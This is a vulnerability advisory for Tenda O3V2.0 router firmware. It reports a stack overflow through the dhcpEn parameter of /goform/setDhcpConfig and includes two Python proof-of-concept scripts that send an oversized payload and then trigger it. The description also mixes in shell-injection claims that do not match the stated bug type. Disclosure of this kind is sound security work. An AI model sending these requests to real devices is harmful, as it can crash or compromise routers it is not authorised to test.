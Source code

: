 ## Summary

A stack overflow vulnerability exists in the Tenda O3V2.0 V1.0.0.10(2478) firmware. The `dhcpEn` POST parameter accepted by `/goform/setDhcpConfig` is written to the configuration key `dhcps.en` via `SetValue` without length or content validation. The stored value is later read (via `/goform/getDhcpConfig`) and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & versions

- **Vendor:** Tenda
- **Product:** O3V2.0 (firmware)
- **Affected version:** V1.0.0.10(2478)
- **Download:** https://www.tenda.com.cn/download/detail-2832.html

## Vulnerability type

- **Type:** Stack overflow
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `SetValue` and `GetValue` functions that handle `dhcps.en`.

## Technical details

- The `setDhcpConfig` endpoint accepts a POST parameter `dhcpEn` and calls `SetValue("dhcps.en", Var)` without enforcing a maximum length or sanitizing shell metacharacters.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_112937.png)

- The `getDhcpConfig` endpoint reads `dhcpEn` via `GetValue("dhcps.en", v15)` and passes it into a shell-invoking context (or a system call) without sanitization, making stored payloads executed when the endpoint is processed.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_113229.png)

Both `SetValue` and `GetValue` lack proper validation of the value contents and length.

## Proof of Concept

1. **Store a malicious `dhcps.en` value**

```python
# poc_set.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setDhcpConfig"
payload =  b"a"*1000

data = {"dhcpEn":payload}
response = requests.post(url, data=data)
print(response.text)
```

2. **Trigger the vulnerable behavior**

```python
# poc_get.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getDhcpConfig"
response = requests.post(url)
print(response.text)
```

3. **Attack result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_104719.png)